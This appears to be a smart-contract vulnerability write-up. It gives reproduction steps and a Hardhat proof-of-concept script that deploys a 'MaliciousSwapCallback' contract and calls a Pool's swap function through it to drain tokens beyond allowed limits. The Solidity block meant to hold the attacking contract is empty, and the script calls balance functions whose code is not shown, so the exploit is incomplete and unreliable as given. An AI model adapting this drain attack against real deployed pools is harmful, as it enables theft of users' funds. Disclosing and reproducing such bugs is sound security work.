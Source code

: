 ```solidity

```

> Reproduction steps:

1. Deploy the `MaliciousSwapCallback` contract on a testnet or local environment.
2. Interface with the `swap` function in the `Pool.sol` contract using the malicious contract as the callback. 
3. Observe how the malicious contract can manipulate the token balances.

> POC script:

```javascript
const { ethers } = require("hardhat");

async function main() {
    const [attacker] = await ethers.getSigners();
    
    // Deploy the malicious contract
    const MaliciousSwapCallback = await ethers.getContractFactory("MaliciousSwapCallback");
    const maliciousContract = await MaliciousSwapCallback.deploy();
    await maliciousContract.deployed();
    console.log("Malicious contract deployed at:", maliciousContract.address);
    
    // Assuming Pool's contract is already deployed
    const Pool = await ethers.getContractAt("Pool", "POOL_CONTRACT_ADDRESS_HERE"); 
    
    // Placeholder values for the swap
    let swapQty = 1000; // Example swap quantity
    let isToken0 = true; // Example token choice
    let limitSqrtP = 0; // Example limit value, this should be calculated based on the desired swap rate and tick
    
    // Initiate the swap using the malicious contract as the callback
    await Pool.swap(maliciousContract.address, swapQty, isToken0, limitSqrtP, ethers.utils.toUtf8Bytes(""));

    // Check balances or any other indicators to validate the success of the attack
    const token0Balance = await maliciousContract.token0Balance(); // call token0Balance
    const token1Balance = await maliciousContract.token1Balance(); // call token1Balance

    console.log(`Token0 balance after the swap: ${token0Balance}`);
    console.log(`Token1 balance after the swap: ${token1Balance}`);

    if(token0Balance > swapQty || token1Balance > swapQty) {
        console.log("Attack successful. Funds were drained more than the allowed limits.");
    } else {
        console.log("Attack failed.");
    }
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error);
    process.exit(1);
  });
```
